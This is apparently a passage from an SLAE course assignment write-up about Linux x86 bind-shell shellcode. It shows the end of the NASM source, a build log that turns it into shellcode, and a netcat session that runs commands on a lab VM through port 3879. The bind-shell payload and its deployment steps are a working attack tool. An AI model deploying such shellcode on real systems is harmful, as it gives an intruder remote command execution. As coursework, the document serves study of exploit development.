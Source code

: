 ```nasm
mov al, 11     ;execve syscall number, 0xb works also.
int 0x80       ;initiate
```

### Testing Execution
I built on top of <a href="https://twitter.com/SecurityTube">Vivek's</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ls
bind.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ./super-compile.sh bind
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ls
bind  bind.nasm  bind.o  shellcode-bind  shellcode-bind.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ./shellcode-bind
Shellcode Length: 103

```

#### Connecting
```
19:04 skawa@skawa-mbp: ~ $ nc -nv 192.168.156.156 3879
found 0 associations
found 1 connections:
     1:	flags=82<CONNECTED,PREFERRED>
	outif vmnet8
	src 192.168.156.1 port 50727
	dst 192.168.156.156 port 3879
	rank info not available
	TCP aux info available

Connection to 192.168.156.156 port 3879 [tcp/*] succeeded!
uname -a
Linux ubuntu 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed Aug 14 15:31:16 UTC 2013 i686 i686 i386 GNU/Linux
whoami
skawa
^C
19:05 skawa@skawa-mbp: ~ $
```

#### Wrapper
For ease of configuration, I have put together a script that takes user supplied network information and converts it to hexadecimal. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment1/networkhex.rb">here</a>. The IP address is irrelevant for this particular case.
